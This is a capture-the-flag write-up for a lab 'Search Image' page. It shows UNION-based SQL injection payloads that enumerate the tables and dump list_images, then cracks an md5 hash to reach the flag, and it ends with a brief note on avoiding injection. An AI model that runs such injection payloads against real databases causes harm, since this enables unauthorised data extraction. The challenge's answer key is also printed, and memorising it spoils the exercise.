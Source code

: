 # <span style="text-decoration: underline"> Search Image </span>

##### Tags : `SQL Injection`
##### Server ip : `192.168.1.17 `
____

# <span style="text-decoration: underline">problem</span>

When we visit the `SEARCH IMAGE` page from **Home page** we see a page where there is an input for **image number** and a `submit` btton. Like other input in this project this could be a way to do `sql injection` To test we could simply try the `'` character. When we set `'` as input character and siubmit, nothing happens. Let's try `1=0`. Yes!! We have aresult with all the image `name` and `urls`.

# <span style="text-decoration: underline">Solution</span>

## Get the table name of our default database
We have found out many database and table names in the [member](/member.md) challenge. Let's try to findout in which tables does this database (default) contains, from this input.

```sql
1 AND 1=0 UNION SELECT 1, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()) --
```

And we get the following result.

```sql
ID: 1 AND 1=0 UNION SELECT 1, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()) -- 
Title: list_images
Url : 1
```

We can see that there is a table called `list_images`. In the [member](/member.md) challenge. we have found out the names of the columns for this table

|No|Table|Column names|
|--|--|--|
|1| **db_default** | `id`, `username`, `password` |
|2| **users** | `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`,  |
|3| **guestbook** | `id_comment` , `comment`, `name` |
|4| **list_images** | `id`, `url`, `title`, `comment` |
|5| **vote_dbs** | `id_vote`, `nb_vote`, `subject`|

## View content of the database

Now that we know what we have in the table let's try to extract the data using the same technique from [member](/member.md) challenge. but using the `column` names for this `table`.

```sql
1 AND 1=2 UNION SELECT title, CONCAT(CHAR(124), id, CHAR(124), url, CHAR(124), title, CHAR(124), comment, CHAR(124)) AS name FROM list_images --
```

We get the following respons

|Id|Url|Title|Comment|
|--|--|--|--|
|1|https://www.nsa.org/img.jpg|Nsa|An image about the NSA !|
|2|https://www.42.fr/42.png|42 !|There is a number..|
|4|https://www.obama.org/obama.jpg|Obama|Yes we can !|
|5|borntosec.ddns.net/images.png|Hack me ?|If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46|
|6|https://www.h4x0r3.0rg/tr0ll.png|tr00l|Because why not ?|

## UnHash and Rehash

Much like the [member](/member.md) challenge, we also get a `md5` string that we have to transform it to **lowercase** and then hash it using `sha256`.

- The `md5` hash `1928e8083cf461a51303633093573c46` is of the word `albatroz`
- It is already all lowercase
- The sha256 sum of the word `albatroz` is `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

# How to avoid the problem

Contrary to the challenge [member](/member.md) challenge, they have removed the `error` messages of bad user inputs but did not do anything agains't correct `sql` query as input. Sql injection could be a dengerouis problem which could as fas as compromise the whole system. in our situation the programmer used the raw **user input** data inside the query which in turn let the user control what the quert string becomes and so the result is given. This kind of situation can be avoided easily by not using the user input directly in our string. 


# Flag

```text
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

?> Node : This is the same `flag` as the one we found during the [copytight](/copyright.md) challenge

# Resources

- [member challenge](/member.md)